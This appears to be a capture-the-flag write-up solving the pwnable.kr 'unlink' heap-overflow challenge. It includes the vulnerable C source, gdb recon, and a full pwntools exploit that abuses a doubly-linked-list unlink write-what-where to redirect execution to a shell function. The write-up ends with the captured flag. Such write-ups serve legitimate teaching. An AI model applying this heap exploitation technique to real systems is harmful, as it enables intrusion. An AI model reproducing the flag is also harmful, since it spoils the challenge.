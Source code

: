 # UNLINK
This was the hardest one for me yet - took me almost a day in total. Let's dive in.


## Source code:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```
Looks like a:
- `heap overflow` in `main`!
- a `ret2win` function - `shell`

Let's see what we can do :)
## Recon
use `pwntools` to get a cyclic string of 100 chars:
```bash
pwn cyclic 100
# aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
Let's test the overflow:
```bash
gdb ./unlink
r
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
We get a `segfault`!
![[write-what-where.png]]
Looking at the data, we can see the `segfault` was on `unlink+29` when the program tries to write the value of `edx` which is `haaa` to the memory address @ `EAX + 4` (`gaaa` -> `0x61616167` -> `0x61616167 + 4` -> `0x6161616b`). We found a Write-What-Where primitive! 
We can now use those commands to check what input is being written where:
```bash
pwn cyclic -l 'gaaa'
24
pwn cyclic -l 'haaa'
28
```
We can see that:
- `EAX` is 24-28
- `EDX` is 28-32

Nice!
when we keep looking at the assembly of the function, we notice that we can't change the return pointer, as the next instruction will make the program crush.
Let's keep digging tho.
I fuzzed the program with values that should be able to pass all writes (using the heap because it is writable).
I just pressed `ni` to go to every assembly line and after A LOT of time I found this code in the `main` function:
```sh
0x080485f2 <+195>:	call   0x8048504 <unlink>
0x080485f7 <+200>:	add    esp,0x10
0x080485fa <+203>:	mov    eax,0x0
# interesting part
0x080485ff <+208>:	mov    ecx,DWORD PTR [ebp-0x4]
0x08048602 <+211>:	leave
0x08048603 <+212>:	lea    esp,[ecx-0x4]
0x08048606 <+215>:	ret
```
The code is right after the call to `unlink` (the write-what-where), maybe we can use it?
Looks like the `ECX` register will take the value from the memory address @ `EBP-0x4`. What if we can write to `ebp-0x4` an address that points to the heap (because it is where our input goes) and contains the address of shell? then `ECX` will contain its value and it will be used as the return pointer!
Let's develop an exploit!

## Exploit
we can get the address of `shell` like this:
```bash
nm ./unlink | grep shell
# 080484eb T shell
```
So in python:
```python
from pwn import *

SHELL_ADDRESS = p32(0x80484eb)
```
We can now create a process:
```python
p = process("./unlink")
```
and attach a debugger (notice I placed a break point at the line after `unlink`):
```python
gdb.attach(p, gdbscript="""
    set pagination off
    set disassembly-flavor intel
    break *0x080485ff
    c
""")
```
we can then use save the `stack` and `heap` leaks as variables:
```python
stack_leak_text = p.recvline().decode().split(": ")[-1].strip()
stack_leak = int(stack_leak_text, 16)
print(f"Stack Leak: {hex(stack_leak)}")

heap_leak_text = p.recvline().decode().split(": ")[-1].strip()
heap_leak = int(heap_leak_text, 16)
print(f"Heap Leak: {hex(heap_leak)}")
```
We can now check in `gdb` what are the offsets:
- stack-leak is printing the `A` object
	- the `A` object is at `ebp-0x14` (check `main+46`)
	- the return pointer is @ `ebp-0x4`
	- `0x14-0x4` = 16
	- so the offset from the leak to the pointer is `16`
- To get the heap leak I just used `gdb` and `x/12x $heap-leak` to check the values and saw that it is 8 bytes away from it.

```python
return_pointer_address = stack_leak + 16 # offset to $ebp-0x4
heap_input_address = heap_leak + 8 # offset to our input
```
We can then build the payload:
```python
payload = b''
payload += SHELL_ADDRESS
payload += b'A' * 20 # padding
payload += p32(return_pointer_address - 4) # remeber to sub 4
payload += p32(heap_input_address + 4) # remeber to add 4
```
Then send it, and get to interactive!
```python
p.sendline(payload)

p.interactive()
```
Let's run it and see what we have!
```sh
python3 local_exp.py
```
A new windows is opened with `gdb` running, and hitting the `breakpoint` we specified.
We can see in the `pwndbg` context that the return pointer successfully changed to `shell` address!
![[shell.png]]
For some reason, when I press `c` to `continue` the program is crushing, although it is already in the function `shell`. I decided to run it on the server.
**NOTICE, after some checking and errors looks like the padding on the `pwnable` server needs to be `12` chars instead of `20` (you can use `pwn cyclic` to check that)** So let's re-write the exploit!
```python
from pwn import *

SHELL_ADDRESS = p32(0x80484eb)


remote_ssh = ssh('unlink', 'pwnable.kr', password='guest', port=2222)
p = remote_ssh.process("./unlink")

stack_leak_text = p.recvline().decode().split(": ")[-1].strip()
stack_leak = int(stack_leak_text, 16)
print(f"Stack Leak: {hex(stack_leak)}")

heap_leak_text = p.recvline().decode().split(": ")[-1].strip()
heap_leak = int(heap_leak_text, 16)
print(f"Heap Leak: {hex(heap_leak)}")

return_pointer_address = stack_leak + 16 # offset to $ebp-0x4
heap_input_address = heap_leak + 8 # offset to our input

payload = b''
payload += SHELL_ADDRESS
payload += b'A' * 12 # padding
payload += p32(return_pointer_address - 4) # remeber to sub 4 
payload += p32(heap_input_address + 4) # remeber to add 4 
p.sendline(payload)

p.interactive()
```
And the results:
```sh
python3 exploit.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] unlink@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
    SHSTK:    Disabled
    IBT:      Disabled
[+] Starting remote process None on pwnable.kr: pid 83701
[!] ASLR is disabled for '/home/unlink/unlink'!
[+] Opening new channel: b'mktemp': Done
[+] Receiving all data: Done (20B)
[*] Closed SSH channel with pwnable.kr
Stack Leak: 0xffb54714
Heap Leak: 0x9397410
[*] Switching to interactive mode
now that you have leaks, get shell!
$ $ ls
flag  intended_solution.txt  unlink  unlink.c
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```

Good Game!